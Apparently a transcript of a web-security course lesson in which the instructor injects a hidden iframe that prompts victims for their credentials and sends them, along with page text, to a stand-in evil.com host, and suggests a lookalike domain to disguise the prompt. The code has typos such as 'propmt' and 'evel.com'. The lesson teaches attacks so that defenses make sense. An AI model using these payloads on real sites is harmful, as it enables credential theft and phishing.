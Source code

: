 Instructor: [0:00] Now that we've blocked all JavaScript execution except from infected sources, let's put our attacker hat back on. **JavaScript isn't the only type of possibly malicious content we can inject onto our target site. We could use iframes**. We can start with a hijacked script and save it as a new file.

[0:18] We'll call this `steal.html` and we'll place it back in the script tag again (all of the code from `payload.html`). **However, instead of trying to take the body of the document, we're going to prompt the user for the username and password**. We can go back to our payload and instead of a script tag, we can add an iframe. We'll say `steal.html` and we'll make this a hidden iframe so the user can't see it.

### steal.html

```html
<script>
  const payload = propmt('enter your username and password')
  const img = new Image()
  img.src = `https://evel.com:666/hijack?payload=${payload}`
</script>

<script src="https://evil.com:666/hijack.js"></script>
```

### payload.html

```html
<script>
  const payload = encodeURIComponent(document.body.innerText)
  const img = new Image()
  img.src = `https://evel.com:666/hijack?payload=${payload}`
</script>

<script src="https://evil.com:666/hijack.js"></script>
<iframe hidden src="https://evil.com:666/steal.html"></iframe>
```

[0:58] We'll log back into our site. We'll paste in our payload, hit submit.

[1:08] Now, you could see it says an embedded page at evil.com says, but if I would be clever, I could change my URL to be localhost.charlesproxy with a zero instead of an O .com. The user might not notice.

[1:22] User now enters in their username and password here, believing it to re-prompt from the target site rather than from a malicious site, hits OK. We could see that the hijack has succeeded again, stealing my username and password.
